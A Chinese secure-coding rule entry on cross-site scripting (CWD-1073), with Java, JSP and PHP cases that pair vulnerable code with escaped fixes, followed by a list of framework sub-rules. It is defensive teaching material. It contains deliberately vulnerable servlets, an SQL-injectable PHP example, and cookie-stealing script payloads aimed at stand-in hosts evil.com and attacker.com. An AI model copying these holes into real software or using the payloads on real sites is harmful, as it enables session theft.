

# CWD-1073 XSS注入

**别名: **Web页面生成过程中对外部输入中和不当（“跨站脚本”）；跨站脚本（XSS）；CSS；HTML注入；未能清理Web页面中的指令（“跨站脚本”(XSS）)；未能维持网页结构（“跨站脚本”）；反射型XSS /非持久型XSS；存储型XSS /持久型XSS；基于DOM的XSS

**描述**
跨站脚本攻击（XSS）漏洞主要发生在以下情况：


1. 不可信数据进入Web应用程序，通常来自Web请求。2. Web应用程序动态生成包含此不可信数据的网页。3. 在页面生成期间，应用程序不会阻止数据包含Web浏览器可执行的内容，例如JavaScript、HTML标记、HTML属性、鼠标事件、Flash、ActiveX等。4. 受害者通过Web浏览器访问生成的网页，其中包含使用不可信数据注入的恶意脚本。5. 由于脚本来自Web服务器发送的网页，因此受害者的Web浏览器会在Web服务器的域上下文中执行恶意脚本。6. 这实际上违反了Web浏览器的同源策略的意图，该策略规定，一个域中的脚本不应该能够访问资源或运行另一个域中的代码。


跨站脚本有许多场景，其特征是各种术语或涉及不同的攻击拓扑。然而，它们都表明了相同的基本弱点：对危险输入中和不当。XSS主要有三种类型：


1. 反射型XSS（或非持久型）：服务器直接从HTTP请求中读取数据，并在HTTP响应中反射回来。反射型XSS攻击发生在攻击者使受害者向易受攻击的Web应用程序提供危险内容，然后将这些内容反射回受害者并由Web浏览器执行时。传递恶意内容的最常见机制是将其作为参数包含在公开发布或直接通过电子邮件发送给受害者的URL中。以这种方式构造的URL构成了许多网络钓鱼方案的核心，攻击者据此说服受害者访问指向易受攻击站点的URL。网站将攻击者的内容反射回受害者后，由受害者的浏览器执行内容。2. 存储型XSS（或持久性）：应用程序将危险数据存储在数据库、消息论坛、访问者日志或其他受信任的数据存储中。稍后，危险数据随后被读回应用程序并包含在动态内容中。从攻击者的角度来看，注入恶意内容的最佳位置是向许多用户或特别感兴趣的用户显示的区域。感兴趣的用户通常在应用程序中具有提升的权限，或者与对攻击者有价值的敏感数据进行交互。如果其中一个用户执行恶意内容，攻击者可能能够代表该用户执行特权操作，或获得对属于该用户的敏感数据的访问权限。例如，攻击者可能在日志消息中注入XSS，当管理员查看日志时可能无法正确处理。3. 基于DOM的XSS：在基于DOM的XSS中，客户端执行向页面注入XSS；在其他类型中，服务器执行注入。基于DOM的XSS通常涉及发送到客户端的由服务器控制的可信脚本，例如在用户提交表单之前对表单执行健全性检查的Javascript。如果服务器提供的脚本处理用户提供的数据，然后将其注入回网页（例如使用动态HTML），那么基于DOM的XSS是可能的。
一旦恶意脚本被注入，攻击者就可以执行各种恶意活动。攻击者可以将私有信息（例如可能包含会话信息的cookie）从受害者的机器传输给攻击者。攻击者可以代表受害者向网站发送恶意请求，如果受害者拥有管理该站点的管理员权限，这可能会对网站造成特别危险。网络钓鱼攻击可用于模拟受信任的网站，诱骗受害者输入密码，从而使攻击者能够危害受害者在该网站上的帐户。最后，脚本可以利用Web浏览器本身的漏洞，可能接管受害者的计算机，有时被称为“驾车黑客”。


- 在许多情况下，攻击可以在受害者甚至不知道的情况下发起。即使是细心的用户，攻击者也经常使用各种方法对攻击的恶意部分进行编码，例如URL编码或Unicode，请求看起来不太可疑。
**语言: **JAVA,JSP,PHP

**严重等级**
严重

**cleancode特征**
安全,可靠

**示例**
**案例1: 对外部数据进行输入过滤和输出转义防止XSS注入**
**语言: **JAVA

**描述**
一个简单的留言板系统，用户可以在留言板上输入自己的名字和留言内容。然而，该系统存在一个 XSS（跨站脚本）注入漏洞，攻击者可以利用该漏洞在页面中注入恶意脚本，窃取其他用户的敏感信息或执行其他恶意操作。

**案例分析**
1. 输入未过滤：代码中直接从 `request.getParameter` 中获取 `username` 和 `message`，并且没有对输入进行任何过滤或转义。攻击者可以利用这一点，通过输入包含恶意脚本的用户名或留言内容，将脚本注入到页面中。
2. 输出未转义：在显示留言时，直接将数据库中的 `username` 和 `message` 输出到页面，而没有对特殊字符进行转义。攻击者注入的脚本会被浏览器解析并执行。
3. 潜在攻击场景：攻击者可以在 `username` 或 `message` 中输入类似以下内容：
```html
<script>alert('XSS');</script>
```
或者更复杂的脚本，例如窃取 Cookie：
```html
<script>document.location.href='https://evil.com?cookie=' + document.cookie;</script>
```
4. 漏洞影响：攻击者可以利用 XSS 漏洞窃取其他用户的 Cookie 信息、重定向用户到恶意网站，甚至控制用户的会话。

**反例**
```java
import java.io.IOException;
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.PreparedStatement;
import java.sql.ResultSet;
import java.sql.SQLException;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class MessageBoardServlet extends HttpServlet {
    private static final long serialVersionUID = 1L;

    public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        // 危险：直接从 request.getParameter 中获取
        String username = request.getParameter("username");
        String message = request.getParameter("message");

        // 将留言保存到数据库
        try {
            Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/messageboard", "root", "password");
            String sql = "INSERT INTO messages (username, message) VALUES (?, ?)";
            PreparedStatement pstmt = conn.prepareStatement(sql);
            pstmt.setString(1, username);
            pstmt.setString(2, message);
            pstmt.executeUpdate();
            conn.close();
        } catch (SQLException e) {
            // ...处理异常
        }

        // 显示所有留言
        try {
            Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/messageboard", "root", "password");
            String sql = "SELECT * FROM messages";
            ResultSet rs = conn.createStatement().executeQuery(sql);
            response.setContentType("text/html");
            response.getWriter().println("<html><body>");
            while (rs.next()) {
                response.getWriter().println("<div class='message'>");
                response.getWriter().println("<strong>用户名:</strong> " + rs.getString("username") + "<br>");
                response.getWriter().println("<strong>留言:</strong> " + rs.getString("message") + "<br>");
                response.getWriter().println("</div>");
            }
            response.getWriter().println("</body></html>");
            conn.close();
        } catch (SQLException | IOException e) {
            // ...处理异常
        }
    }
}
```

**正例**
```java
import java.io.IOException;
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.PreparedStatement;
import java.sql.ResultSet;
import java.sql.SQLException;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.commons.lang.StringEscapeUtils;

public class SecureMessageBoardServlet extends HttpServlet {
    private static final long serialVersionUID = 1L;

    public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        // 输入过滤：使用 StringEscapeUtils.escapeHtml4 对输入内容进行转义
        String username = StringEscapeUtils.escapeHtml4(request.getParameter("username"));
        String message = StringEscapeUtils.escapeHtml4(request.getParameter("message"));

        // 将留言保存到数据库
        try {
            Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/messageboard", "root", "password");
            String sql = "INSERT INTO messages (username, message) VALUES (?, ?)";
            PreparedStatement pstmt = conn.prepareStatement(sql);
            pstmt.setString(1, username);
            pstmt.setString(2, message);
            pstmt.executeUpdate();
            conn.close();
        } catch (SQLException e) {
            // ...处理异常
        }

        // 显示所有留言
        try {
            Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/messageboard", "root", "password");
            String sql = "SELECT * FROM messages";
            ResultSet rs = conn.createStatement().executeQuery(sql);
            response.setContentType("text/html");
            response.getWriter().println("<html><body>");
            while (rs.next()) {
                response.getWriter().println("<div class='message'>");
                // 输出转义：再次使用 StringEscapeUtils.escapeHtml4 对内容进行转义
                response.getWriter().println("<strong>用户名:</strong> " + StringEscapeUtils.escapeHtml4(rs.getString("username")) + "<br>");
                response.getWriter().println("<strong>留言:</strong> " + StringEscapeUtils.escapeHtml4(rs.getString("message")) + "<br>");
                response.getWriter().println("</div>");
            }
            response.getWriter().println("</body></html>");
            conn.close();
        } catch (SQLException | IOException e) {
            // ...处理异常
        }
    }
}
```

**修复建议**
- 输入过滤：在接收用户输入时，使用 `StringEscapeUtils.escapeHtml4` 对输入内容进行转义，将特殊字符（如 `<`, `>`, `&` 等）转换为对应的 HTML 实体，防止脚本被执行。
- 输出转义：在将数据从数据库中读取并输出到页面时，再次使用 `StringEscapeUtils.escapeHtml4` 对内容进行转义，确保任何潜在的恶意脚本都不会被浏览器解析。

**案例2: 直接将用户的评论内容输出至Web页面导致XSS**
**语言: **JAVA

**描述**
有一个Java Web应用程序，用户可以在该程序上发布评论。该程序直接将用户输入的内容显示在页面上，而没有进行任何输入验证或输出转义。攻击者可以利用这一点，通过在评论中插入恶意脚本，导致其他用户受到XSS攻击。

**案例分析**
在这个案例中，用户输入的内容直接被输出到页面上，而没有进行任何转义或过滤。攻击者可以利用这一点，通过在评论中插入恶意脚本，例如：
```xml
<script>alert('XSS');</script>
```
当其他用户查看包含此评论的页面时，恶意脚本会被执行，弹出一个警告框。更严重的攻击可能会窃取用户的 cookies 或其他敏感信息。

**反例**
```java
import java.io.IOException;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class CommentServlet extends HttpServlet {
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String userComment = request.getParameter("comment");
        response.setContentType("text/html");
        response.getWriter().println("<html>");
        response.getWriter().println("<body>");
        response.getWriter().println("<h1>用户评论:</h1>");
        response.getWriter().println("<p>" + userComment + "</p>"); // 风险代码
        response.getWriter().println("</body>");
        response.getWriter().println("</html>");
    }
}
```

**正例**
```java
import java.io.IOException;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.commons.lang3.StringEscapeUtils;

public class CommentServlet extends HttpServlet {
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String userComment = request.getParameter("comment");
        // 对用户输入的内容进行HTML转义
        String safeComment = StringEscapeUtils.escapeHtml4(userComment);
        response.setContentType("text/html");
        response.getWriter().println("<html>");
        response.getWriter().println("<body>");
        response.getWriter().println("<h1>用户评论:</h1>");
        response.getWriter().println("<p>" + safeComment + "</p>"); // 安全代码
        response.getWriter().println("</body>");
        response.getWriter().println("</html>");
    }
}
```

**修复建议**
- 使用合适的转义函数：根据输出的上下文选择合适的转义函数。例如：
`StringEscapeUtils.escapeHtml4()` 用于 HTML 上下文。
`StringEscapeUtils.escapeJavaScript()` 用于 JavaScript 上下文。
`StringEscapeUtils.escapeCss()` 用于 CSS 上下文。
`StringEscapeUtils.escapeUrl()` 用于 URL 上下文。
- 使用安全的框架和库：许多现代 Web 框架（如 Spring、Hibernate 等）内置了 XSS 防护机制，使用这些框架可以减少手动处理 XSS 的风险。
- 输入验证：对用户输入进行验证，确保输入的内容符合预期的格式和范围。例如，限制评论的长度，禁止某些特定的字符或模式。
- 使用安全的编码实践：避免直接拼接 HTML 字符串，使用模板引擎（如 Thymeleaf、Freemarker 等）来生成页面内容，这些引擎通常会自动处理转义问题。

**案例3: 直接将用户的评论内容输出至Web页面导致XSS**
**语言: **JSP

**描述**
一个基于Java的Web应用程序中，开发人员直接在JSP页面上输出用户输入的评论内容，而没有进行任何过滤或编码处理。攻击者可以通过提交包含恶意JavaScript代码的评论，当其他用户查看该评论时，代码会在浏览器中执行，导致跨站脚本攻击(XSS)。

**案例分析**
代码直接使用EL表达式`${userComment}`输出用户输入的内容，没有进行任何编码或过滤处理。攻击者可以利用此漏洞进行：窃取用户会话cookie，重定向用户到恶意网站，修改页面内容，执行任意 JavaScript代码。
攻击方式：攻击者可以提交如下评论内容：
```html
<script>alert('XSS攻击');</script>
```
或者更恶意的脚本：
```html
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

**反例**
```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<!DOCTYPE html>
<html>
<head>
    <title>用户评论页面</title>
</head>
<body>
    <h1>用户评论</h1>
    <div>
        <%-- 直接输出用户输入的评论内容 --%>
        ${userComment}
    </div>
</body>
</html>
```


- 对应的Controller代码：
```java
@Controller
public class CommentController {
    
    @PostMapping("/submitComment")
    public String submitComment(@RequestParam String comment, Model model) {
        // 直接将用户输入存入模型，没有进行任何处理
        model.addAttribute("userComment", comment);
        return "commentView";
    }
}
```

**正例**
```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c" %>
<%@ taglib uri="http://java.sun.com/jsp/jstl/functions" prefix="fn" %>
<!DOCTYPE html>
<html>
<head>
    <title>用户评论页面</title>
</head>
<body>
    <h1>用户评论</h1>
    <div>
        <%-- 使用JSTL的fn:escapeXml进行输出编码 --%>
        ${fn:escapeXml(userComment)}
    </div>
</body>
</html>
```


- 或者使用Spring的标签：
```jsp
<%@ taglib prefix="spring" uri="http://www.springframework.org/tags" %>
...
<div>
    <spring:escapeBody htmlEscape="true">${userComment}</spring:escapeBody>
</div>
```

**修复建议**
- 输出编码：在将用户输入显示到页面之前，对特殊字符进行HTML编码转换。
- 使用安全库：使用JSTL的`fn:escapeXml`函数或Spring的`<spring:escapeBody>`标签自动处理编码。
- 内容安全策略(CSP)：添加HTTP头`Content-Security-Policy`来限制脚本执行。

**案例4: 对外部数据进行输入过滤和输出转义防止XSS注入**
**语言: **PHP

**描述**
一个简单的留言板系统，用户可以在留言板上输入自己的名字和留言内容。然而，该系统存在一个 XSS（跨站脚本）注入漏洞，攻击者可以利用该漏洞在页面中注入恶意脚本，窃取其他用户的敏感信息或执行其他恶意操作。

**案例分析**
1. 输入未过滤：代码中直接从 `$_POST` 中获取 `username` 和 `message`，并且没有对输入进行任何过滤或转义。攻击者可以利用这一点，通过输入包含恶意脚本的用户名或留言内容，将脚本注入到页面中。
2. 输出未转义：在显示留言时，直接将数据库中的 `username` 和 `message` 输出到页面，而没有对特殊字符进行转义。攻击者注入的脚本会被浏览器解析并执行。
3. 潜在攻击场景：攻击者可以在 `username` 或 `message` 中输入类似以下内容：
```html
<script>alert('XSS');</script>
```
或者更复杂的脚本，例如窃取 Cookie：
```html
<script>document.location.href='https://evil.com?cookie=' + document.cookie;</script>
```
4. 漏洞影响：攻击者可以利用 XSS 漏洞窃取其他用户的 Cookie 信息、重定向用户到恶意网站，甚至控制用户的会话。

**反例**
```php
<?php
//留言板处理代码
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // 危险：直接从 $_POST 中获取
    $username = $_POST['username'];
    $message = $_POST['message'];
    
    // 将留言保存到数据库
    $sql = "INSERT INTO messages (username, message) VALUES ('$username', '$message')";
    mysqli_query($conn, $sql);
}

// 显示所有留言
$sql = "SELECT * FROM messages";
$result = mysqli_query($conn, $sql);
while ($row = mysqli_fetch_assoc($result)) {
    echo "<div class='message'>";
    echo "<strong>用户名:</strong> " . $row['username'] . "<br>";
    echo "<strong>留言:</strong> " . $row['message'] . "<br>";
    echo "</div>";
}
?>
```

**正例**
```php
<?php
//留言板处理代码
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // 输入过滤：使用 htmlspecialchars 对输入内容进行转义
    $username = htmlspecialchars($_POST['username'], ENT_QUOTES, 'UTF-8');
    $message = htmlspecialchars($_POST['message'], ENT_QUOTES, 'UTF-8');
    
    // 将留言保存到数据库
    $sql = "INSERT INTO messages (username, message) VALUES (?, ?)";
    $stmt = mysqli_prepare($conn, $sql);
    mysqli_stmt_bind_param($stmt, "ss", $username, $message);
    mysqli_stmt_execute($stmt);
}

// 显示所有留言
$sql = "SELECT * FROM messages";
$result = mysqli_query($conn, $sql);
while ($row = mysqli_fetch_assoc($result)) {
    echo "<div class='message'>";
    // 输出转义：再次使用 htmlspecialchars 对内容进行转义
    echo "<strong>用户名:</strong> " . htmlspecialchars($row['username'], ENT_QUOTES, 'UTF-8') . "<br>";
    echo "<strong>留言:</strong> " . htmlspecialchars($row['message'], ENT_QUOTES, 'UTF-8') . "<br>";
    echo "</div>";
}
?>
```

**修复建议**
- 输入过滤：在接收用户输入时，使用 `htmlspecialchars` 对输入内容进行转义，将特殊字符（如 `<`, `>`, `&` 等）转换为对应的 HTML 实体，防止脚本被执行。
- 输出转义：在将数据从数据库中读取并输出到页面时，再次使用 `htmlspecialchars` 对内容进行转义，确保任何潜在的恶意脚本都不会被浏览器解析。

#### CWD-1073-000 XSS注入

#### CWD-1073-001 【Web页面中与Script相关的HTML标签中和不当】直接存储外部可疑数据

#### CWD-1073-002 【Web页面中与Script相关的HTML标签中和不当】Android WebView中启用了JavaScript

#### CWD-1073-003 错误消息Web页面中与Script相关的特殊符号中和不当

#### CWD-1073-004 【Web页面属性中的Script中和不当】IMG标签属性

#### CWD-1073-005 Web页面中对URI编码欺骗中和不当

#### CWD-1073-006 Web页面与Script相关的重复字符中和不当

#### CWD-1073-007 Web页面标识符中的无效字符中和不当

#### CWD-1073-008 Script语法替换XSS中和不当

#### CWD-1073-009 【DOM型】JavaScript的eval函数执行不可信表达式，造成XSS

#### CWD-1073-010 【JavaScript可执行函数,运行受污染的数据，容易导致XSS漏洞】新建函数Function(str),参数str外部可控，且没有校验转码，则易造成XSS漏洞

#### CWD-1073-011 【JavaScript可执行函数,运行受污染的数据，容易导致XSS漏洞】延时函数setTimeout(str,time)使用受污染的数据作为str参数，且没有校验转码，则易造成XSS漏洞

#### CWD-1073-012 【JavaScript可执行函数,运行受污染的数据，容易导致XSS漏洞】周期函数setInterval()执行外部可控函数或表达式，且没有进行转码，易造成XSS漏洞

#### CWD-1073-013 【利用dom对象、window对象等，使用外部可控数据渲染Html页面元素或属性，易造成XSS漏洞】HTML5增加了许多新标签和新属性，外部可控数据渲染新标签或属性，易导致XSS漏洞。标签如：Canvas、video等，属性如：poster、autofocus、onerror、formaction、oninput等

#### CWD-1073-014 【利用dom对象、window对象等，使用外部可控数据渲染Html页面元素或属性，易造成XSS漏洞】window对象可以操作JavaScript全局函数及变量。如果window[key](val)调用中，key和val外部可控，则可执行任意js代码，造成XSS漏洞

#### CWD-1073-015 【利用dom对象、window对象等，使用外部可控数据渲染Html页面元素或属性，易造成XSS漏洞】通过location和document对象操作不可信url/uri时，容易造成XSS漏洞。如：location.href=、document.location=，window.open (URL,...)，document操作敏感属性：action,src,href等

#### CWD-1073-016 【利用dom对象、window对象等，使用外部可控数据渲染Html页面元素或属性，易造成XSS漏洞】原生Dom对象，使用外部可控数据渲染Html页面，易导致XSS漏洞，如：document.write()，document.writeln()，.innerHTML=，.outerHTML=，append(),appendChild(),insertBefore()等

#### CWD-1073-017 HttpServletResponse类对象通过getWriter()、getOutputStream()方式响应受污染数据到页面，导致XSS漏洞

#### CWD-1073-018 【动态网页开发技术(Jsp)渲染页面时，数据外部可控且未经过校验编码，容易导致XSS漏洞】JSP标准标签库(jstl)c:out输出外部可控数据，且escapeXml=false时容易导致XSS漏洞

#### CWD-1073-019 【动态网页开发技术(Jsp)渲染页面时，数据外部可控且未经过校验编码，容易导致XSS漏洞】Jsp中< %代码片段% >表达式在页面上渲染外部可控数据，容易导致XSS漏洞

#### CWD-1073-020 【动态网页开发技术(Jsp)渲染页面时，数据外部可控且未经过校验编码，容易导致XSS漏洞】通过EL表达式${}渲染外部可控变量，容易导致XSS漏洞

#### CWD-1073-021 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】doT模板引擎:使用{{=it.name}}表达式渲染外部可控数据，易造成XSS漏洞

#### CWD-1073-022 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】ejs模板引擎:<%- data %>表达式渲染外部可控数据，易造成XSS漏洞

#### CWD-1073-023 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】Jade/Pug模板引擎:!{}和!=未对外部可控数据等进行编码转义,直接渲染页面,易造成XSS漏洞

#### CWD-1073-024 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】Mustache模板引擎:使用{{{msg}}}或{{&msg}}表达式在页面上渲染受污染数据,易造成XSS漏洞

#### CWD-1073-025 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】Nunjucks模板引擎:未开启autoescape模式,使用外部可控数据渲染页面，易造成XSS漏洞

#### CWD-1073-026 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】Spring中使用Freemarker模板引擎渲染带有${var}占位的ftl模板时，使用外部不可信数据渲染，易造成XSS漏洞

#### CWD-1073-027 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】Thymeleaf模板引擎:th:utext默认不会对参数做转义，在页面上渲染外部可控数据，容易造成XSS漏洞

#### CWD-1073-028 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】Thymeleaf模板引擎:Thymeleaf结合Angular可能存在绕过angular沙箱验证和th:text的转义造成XSS漏洞

#### CWD-1073-029 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】AngularJS框架：结合后端模板引擎使用，受污染数据(沙箱逃逸有效负载)被{{expression}}表达式解析，渲染页面，易造成XSS漏洞

#### CWD-1073-030 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】AngularJS框架：使用ng-bind-html绑定外部可控参数到Dom属性上，易造成XSS漏洞

#### CWD-1073-031 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】AngularJS框架：危险函数执行外部可控参数，易造成XSS漏洞。如：$watch、$watchGroup、$watchCollection、$eval、$evalASync、$apply、$applyASync、$parse、$interpolate等函数

#### CWD-1073-032 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】echarts：tooltip中formatter返回外部可控数据，进行页面渲染，易导致XSS漏洞

#### CWD-1073-033 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】jQuery框架:jQuery的Dom操作方法利用外部可控数据直接渲染页面，易导致XSS漏洞。如.html(),.append(),appendTo(),before(),insertAfter(), insertBefore(),prepend(),prependTo(),after(),.attr()等

#### CWD-1073-034 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】React框架：createElement()函数利用外部可控数据创建节点，再进行页面渲染，易导致XSS漏洞

#### CWD-1073-035 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】React框架：JavaScript代码中,Html节点使用外部可控数据创建节点，再进行页面渲染，易导致XSS漏洞

#### CWD-1073-036 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】React框架：使用dangerouslySetInnerHTML属性方法在页面上渲染外部可控数据，易导致XSS漏洞

#### CWD-1073-037 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】vue框架:使用v-bind()方法，在页面上渲染外部可控数据，易导致XSS漏洞

#### CWD-1073-038 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】vue框架:使用v-html()方法，在页面上渲染外部可控数据,易导致XSS漏洞

#### CWD-1073-039 nginx.conf配置文件中add_header配置项的X-XSS-Protection的配置值不合理

#### CWD-1073-040 Tomcat通过FilterRegistrationBean关闭了X-XSS-Protection头加固

#### CWD-1073-041 Tomcat通过web.xml配置过滤器时关闭了X-XSS-Protection头加固

#### CWD-1073-042 Huawei WSF安全框架通过hwsf-security.xml配置文件将X-XSS-Protection节点配置为disable来关闭默认安全头

#### CWD-1073-043 Huawei WSF安全框架通过FilterRegistrationBean设置X-XSS-Protection的值不正确

#### CWD-1073-044 Huawei WSF安全框架通过web.xml配置过滤器时设置X-XSS-Protection的值不正确

#### CWD-1073-045 servlet框架通过setHeader/addHeader配置X-XSS-Protection值不合理

#### CWD-1073-046 Spring Security框架通过HttpSecurity类调用xssProtection().xssProtectionEnabled(false)函数关闭X-XSS-Protection的安全配置

#### CWD-1073-047 USecurity安全框架通过FilterRegistrationBean设置X-XSS-Protection的值不正确

#### CWD-1073-048 USecurity安全框架通过web.xml配置过滤器时设置X-XSS-Protection的值不正确

#### CWD-1073-049 通过setHeader/addHeader方式单独为请求设置控制响应头X-Content-Type-Options

#### CWD-1073-050 通过setHeader/addHeader方式单独为请求设置控制响应头X-XSS-Protection

#### CWD-1073-051 Tomcat通过FilterRegistrationBean关闭了内容猜解头content-type-options加固

#### CWD-1073-052 Tomcat通过web.xml将blockContentTypeSniffingEnabled参数设置为false，关闭了内容猜解头content-type-options加固

#### CWD-1073-053 Huawei WSF安全框架通过hwsf-security.xml配置文件中content-type-options节点配置为disable关闭了内容猜测头的加固

#### CWD-1073-054 SpringSecurity安全框架通过HttpSecurity类调用disable函数关闭X-Content-Type-Options的安全配置

**业界缺陷**

- [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
---

